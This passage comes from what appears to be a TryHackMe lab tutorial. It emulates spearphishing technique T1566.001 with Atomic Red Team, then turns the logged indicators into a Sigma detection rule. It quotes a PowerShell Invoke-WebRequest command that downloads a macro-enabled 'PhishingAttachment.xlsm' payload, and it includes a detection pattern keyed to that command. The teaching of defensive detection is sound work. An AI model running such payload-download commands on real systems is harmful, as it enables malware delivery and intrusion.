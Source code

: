  ![The results of executing the Atomic Test T1566.001 on the Windows Event Viewer.](https://tryhackme-images.s3.amazonaws.com/user-uploads/66c44fd9733427ea1181ad58/room-content/66c44fd9733427ea1181ad58-1730736581670.png)

Navigate to the directory `C:\Users\Administrator\AppData\Local\Temp\`, and open the file `PhishingAttachment.txt`. The flag included is the answer to question 1. Make sure to answer the question now, as the cleanup command will delete this file. \n 

Let's clean up the artefacts from our spearphishing emulation. Enter the command `Invoke-AtomicTest T1566.001-1 -cleanup`.

Now that we know which artefacts were created during this spearphishing emulation, we can use them to create custom alerting rules. In the next section, we will explore this topic further.

## Alerting on the Atomic

In the previous paragraph, we found multiple indicators of compromise through the Sysmon event log. We can use this information to create detection rules to include in our EDR, SIEM, IDS, etc. These tools offer functionalities that allow us to import custom detection rules. There are several detection rule formats, including Yara, Sigma, Snort, and more. Let's look at how we can implement the artefacts related to T1566.001 to create a custom Sigma rule.

Two events contained possible indicators of compromise. Let's focus on the event that contained the `Invoke-WebRequest` command line:

`"powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}"`

We can use multiple parts of this artefact to include in our custom Sigma rule.

* `Invoke-WebRequest`: It is not common for this command to run from a script behind the scenes.
* `$url = 'http://localhost/PhishingAttachment.xlsm'`: Attackers often use a specific malicious domain to host their payloads. Including the malicious URL in the Sigma rule could help us detect that specific URL.
* `PhishingAttachment.xlsm`: This is the malicious payload downloaded and saved on our system. We can include its name in the Sigma rule as well.

Combining all these pieces of information in a Sigma rule would look something like this:

PowerShell Invoke-WebRequest Sigma Rule

```javascript
title: Detect PowerShell Invoke-WebRequest and File Creation of PhishingAttachment.xlsm
  id: 1
  description: Detects the usage of Invoke-WebRequest to download PhishingAttachment.xlsm and the creation of the file PhishingAttachment.xlsm.
 status: experimental
  author: TryHackMe
  logsource:
    category: process_creation
    product: windows
    service: sysmon
  detection:
   selection_invoke_webrequest:
      EventID: 1
      CommandLine|contains:
        - 'Invoke-WebRequest'
        - 'http://localhost/PhishingAttachment.xlsm'
    
    selection_file_creation:
      EventID: 11  # Sysmon Event ID for File Creation
      TargetFilename|endswith: '\PhishingAttachment.xlsm'
      
    condition: selection_invoke_webrequest or selection_file_creation
  falsepositives:
    - Legitimate administration activity may use Invoke-WebRequest, and legitimate Excel files may be created with similar names.
  level: high
  tags:
```